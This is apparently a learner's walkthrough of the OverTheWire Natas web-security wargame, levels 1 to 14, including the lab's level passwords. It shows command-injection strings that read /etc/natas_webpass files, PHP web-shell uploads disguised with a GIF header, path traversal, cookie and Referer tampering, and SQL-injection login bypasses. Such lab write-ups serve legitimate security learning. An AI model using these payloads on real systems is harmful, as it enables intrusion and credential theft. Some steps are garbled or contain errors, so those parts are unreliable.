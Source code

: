 # Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
# Level 5
```Visiting the website returns the following text: “Access disallowed. You are not logged in”. The website should determine that we are logged in through a cookie. So, by opening the developer tools and going to the ‘Storage’ tab, we can see the ‘Cookies’ section. Here we find a cookie named ’loggedin’ with the value=0. Let’s try changing the value to 1 (by double-clicking on it) and refreshing the page.```

# Level 6 
if you take a look into source code that handles `input` you find something like this 
`include "includes/secret.inc"include "includes/secret.inc"` it means that it inludes another php file to get key from it,
and now we should do it manually `http://natas6.natas.labs.overthewire.org/index-source.html/include/secret.inc` its just a white/black screen 
check inspector and you find key

# Level 7 

Level 7 is bassically same as Level 6
  * take a look into source code
  * you will find something like this ` hint: password for webuser natas8 is in /etc/natas_webpass/natas8`
  * and go this link via page `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

# Level 8 

Level 8 is same as level 6 but pin-code placed in the script you should decode it
```
 echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p

==QcCtmMml1ViV3b #decode hash to bin

echo "==QcCtmMml1ViV3b" | rev #reverse

b3ViV1lmMmtCcQ

echo b3ViV1lmMmtCcQ== | base64 -d

oubWYf2kBq  #key   
```
# Level 9 

so solve this case we should use `comanline injection`
as you could see in source code that input value directly goes through db without any hiccups
`; cat /etc/natas_webpass/natas10 #`--> Key to next level

# Level 10 
Solution in this problem is use another method of injection
`.* cat /etc/natas_webpass/natas11`
 # Level 11
  ----
 # Level 12
 
 In this level you should create a php file on your pc and write own script to get pass
 `<?php echo shell_exec("ls");?>` but dont send it yet you need change in inspector type from jpg to php
 and than upload file it should execute. 
 So ones it worked you should change you script to `<?php echo shell_exec("cat /etc/natas_webpass/natas13");?>` 

 # Level13
 To solve this level we should create the same script in php.

But if you look into source code, you will see some thing like this
 
`else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) echo "File is not an image";`

so this line checks our image type while uploading, and if we just upload our php file we can get error

exif_imagetype() - This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. If our file does not begin with the header bytes that indicate it actually is an image file, it will be rejected.

no worries we can buypass it using [magic headers](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=learnhacking.io)

lets pretend to be GIF
```GIF87a<?php echo shell_exec("ls");?>```
And now repeat all that stuff we done in level 12
and you will get KEY

# Level 14
this case is different from others
to solve this we should look into source code

`if(array_key_exists("username", $_REQUEST)) {` 
in this line we can see that form directly works with it means it will do any comand that we can give him,
this method called `sql injection`

How it works (basic idea):
1.A website asks for user input, like a username and password.
2.This input is used directly in an SQL query, like this:
`SELECT * FROM users WHERE username = 'input' AND password = 'input';`
3.If the input is not properly sanitized, an attacker can inject SQL code:
`username = 'admin' -- 
password = anything
`
4.The resulting query becomes:
`SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything';`
The -- makes the rest of the query a comment.
5.Now the attacker logs in as admin without knowing the password.

Now you understand how sql injection works:
So to get into the Level14 we should do the same thing

`http://natas14.natas.labs.overthewire.org/?e=1&&username=admin"OR 1=1 --"&&password="admin`

?--->means that we using Get request to get output 

`OR 1=1 --`-->one the basic injection that always returns true(thats how we can bypass password)
